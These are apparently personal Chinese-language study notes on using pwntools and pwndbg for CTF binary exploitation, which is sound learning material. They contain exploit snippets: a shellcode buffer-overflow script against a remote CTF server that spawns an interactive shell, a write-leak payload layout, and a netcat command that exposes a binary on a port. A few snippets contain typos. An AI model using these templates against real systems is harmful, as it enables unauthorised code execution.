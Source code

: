 pwndbg


## pwntools

[pwntools 命令行工具](https://zero-mk.github.io/2019/01/01/pwntools-Command%20Line%20Tools/)
[Link](https://www.jianshu.com/p/6e528b33e37a)
[Link](https://docs.pwntools.com/en/stable/timeout.html)

```py
# timeout
context.timeout = 30
```

### 本地启动

nc -vc ./fmt -kl 3333

然后其他机器就可以 nc ip port 连接了

### 怎样调试

方法 1

```python
context(arch='amd64', os='linux', log_level='debug')
sh = process('./pwn')
# gdb.attach(sh, 'b *0x1234')
gdb.attach(sh)
```

方法 2

```python
sh = process('./pwn')
raw_input('debug')
这时看pid，比如是 6533, 新建终端，
$gdb
$attach 6533
```

### 指令介绍

p32、p64 是 64/32 位代码 打包为二进制，u32、u64 是解包为二进制

**flat 模块能将 pattern 字符串和地址结合并且转为字节模式**

```python
payload = flat(cyclic(32), 0x804a060)
io.sendlijneafter(':', flat['a'*0x8c, e.plt['system'], 0, 0x804a024, 0, 0])
```

symbols

    ELF('./level3').symbols['main']
    ELF('./level3').sym['main']

gdb.attach(sh) # gdb 附加到调试

### 示例

```python
from pwn import *
context(log_level = 'debug', arch = 'i386', os = 'linux') # 能显示调试信息
#io = process('./level1')
io = remote('pwn2.jarvisoj.com', 9877) # 远程连接
text = io.recvline()[14: -2] # 获取返回值
# recvline(keepends=True) : 接收一行，keepends为是否保留行尾的\n
shellcode = asm(shellcraft.sh()) # pwntools生成的 sh 的shellcode
p64(0x400000) # 地址转 64 位二进制
p32(0x400000) # 地址转 32 位二进制
payload = shellcode.decode('latin') + '\x90' * (0x88 + 0x4 - len(shellcode)) + p32(buf_addr).decode('latin')
io.send(payload)
io.interactive()
io.close()
```

从 write 返回 main

```python
#char[88] ebp  write函数地址  write函数返回地址(返回到main函数)  write函数参数一(1)  write函数参数二(write_got地址)  write函数参数三(写4字节)
payload = flat('A'*0x88, p32(0xdeadbeef), p32(write_plt), p32(main_addr), p32(1), p32(write_got), p32(0xdeadbeef))
# payload = flat('a'*0x88, p64(syscall), p64(syscall)) # buuctf这题需要2个，不明白。好像是栈没对齐的原因
```

#### 输入字符

```python
io.sendlineafter('name', payload)

io.recvuntil("your name")
io.sendline("/bin/sh")

print(io.recvall())
```

#### 汇编转二进制、数字、字符转换等

```python
# python3
from pwn import *
print(asm('XCHG EAX,ESP\nRET\nMOV ECX,[EAX]\nMOV [EDX],ECX\nPOP EBX\nRET'.lower()).hex())
```

p32

```python
>>> p32(0x8040000)
b'\x00\x00\x04\x08'
```

u32 使用

```python
>>> u32('\x00\x00\x04\x08')
134479872
>>> hex(u32('\x00\x00\x04\x08'))
'0x8040000'
```

#### runshellcode

```python
from pwn import *
run_shellcode(a.encode())
```

### 相关知识

通过 ldd 查找 libc 共享库， 这里 python 需要用到 c 语言的标准动态库, srand 用到 libc.so.6

```sh
kali@kali:/mnt/hgfs/vmware$ ldd guess_num
        linux-vdso.so.1 (0x00007ffec67fa000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007faeab4e3000)
        /lib64/ld-linux-x86-64.so.2 (0x00007faeab8c1000)
```

# FAQ

1. pwndbg Debugger always exiting
[Link](https://github.com/Gallopsled/pwntools/issues/1677) [Solution](https://github.com/Gallopsled/pwntools/commit/7ececc6bce24ccf3fe9c19c12b225e5e85d56afc)
